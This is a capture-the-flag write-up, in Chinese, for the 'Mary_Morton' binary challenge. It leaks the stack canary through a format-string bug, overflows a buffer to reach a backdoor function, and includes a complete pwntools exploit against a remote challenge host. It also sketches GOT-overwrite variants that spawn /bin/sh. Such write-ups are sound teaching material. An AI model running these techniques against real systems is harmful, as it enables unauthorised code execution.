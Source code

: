 1、准备工作
（1）chmod 777 Mary_Morton
（2）file Mary_Morton
显示：
Mary_Morton: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b7971b84c2309bdb896e6e39073303fc13668a38, stripped
（3）./Mary_Morton
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
发现提示中说明1是栈溢出漏洞，2是格式化字符串漏洞，3是退出程序。
（4）运行checksec：
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
发现有canary开启。
2、思路
1)IDA中查看发现按下2后，调用sub_4008EB()函数，存在格式化字符串漏洞：printf(&buf, &buf);
按下2键，再输入AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p，返回
AAAAAAAA-0x7fff6992ffe0-0x7f-0x7fd54bc555ce-0x1999999999999999-(nil)-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0xa70-(nil)-(nil)-0x674fa3cdd0633d00-0x7fff699300b0-0x4008b8-(nil)-0x7fff699301a8-0x7fff69930198-0x100400730-0x269930190-0x674fa3cdd0633d00-0x400a50-0x7fd54bb8de0b-(nil)-0x7fff69930198
发现偏移量为6字节。(发现我们的输入是从第7个位置开始的，由于下标从0开始，此位置在计算机看来为7 - 1)
2)IDA中查看发现按下1后，调用sub_400960()函数，存在缓冲区溢出漏洞：read(0,&buf,0x100);
buf的大小是0x90,小于第三个参数0x100
3)查找字符串，发现"/bin/cat ./flag"，交叉引用发现后门函数地址为0x4008DA
4)首先利用字符串漏洞，泄露出canary的值，然后在函数要返回的时候再填回去，之后利用栈溢出，让其返回到后门函数
注意：   
	v2 = *MK_FP(__FS__, 40LL);
	return *MK_FP(__FS__, 40LL) ^ v2;
说明使用了canary。
简单介绍canary：启动该机制后，程序会函数开始执行的时候在栈中插入cookie（随机数），函数之后进行验证cookie的正确性，每次程序运行时生成的canary都不相同。x86-64架构下通过fs：0x28来获取这个数据存放在栈中。在退出栈之前，合并栈中的canary值进行检测。
根据上面说明，cookie的值为v2。
注意：
buf和v2相差了0x90-0x8=0x88，0x88/8=17， 17+6（偏移量）=23
因为64位的程序，每个格式化字符串都是8字节，同理32位是4字节
结构如下：
		| stack      |
		| ---------- |
		| 0x88 bytes |
		| Canary     |
		| RBP        |
		| RIP        |
5)构造payload：我们的目的是将canary的值泄漏出来，canary距离buf栈顶的位置相差0x88个字节，%p是将值进行泄漏，前面的位置为17+6，所以paload为：
payload=%23$p，接收到一个十六进制的canary的值。
再次构造payload为：
payload='a'*(0x90-0x8)+p64(canary)+'a'*8+p64(backdoor_addr)
3、exp：
#coding=utf-8
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
elf=ELF('./Mary_Morton')
#p=process('./Mary_Morton')
p=remote('220.249.52.133','52935')

p.sendlineafter('3. Exit the battle','2')
p.sendline('%23$p')
p.recvuntil('0x')

canary=int(p.recv(16),16)
print(canary)

backdoor_addr=0x4008da
payload=0x88*'a'+p64(canary)+8*'a'+p64(backdoor_addr)

p.sendlineafter('3. Exit the battle','1')
p.sendline(payload)
p.interactive()
p.close()

writeup赞最多的第二条和第三条写的不错


1、第二种思路，
方式1:输入2，利用格式化字符串将printf的got地址修改为system的plt地址，再次输入2，输入'/bin/sh\x00'，相当于执行system('/bin/sh\x00')
方式2:输入2，利用格式化字符串将exit的got地址修改为sub_4008DA函数地址（该函数可以直接执行cat./flag）,再次输入3，调用sub_4008DA函数catflag

问题1：writeup中的第三条其他的两种思路的写法
问题2：writeup中第四条中4%23$p的写法
问题3：re.findall(r'\w+\{.+\}', conn.recvuntil('}'))


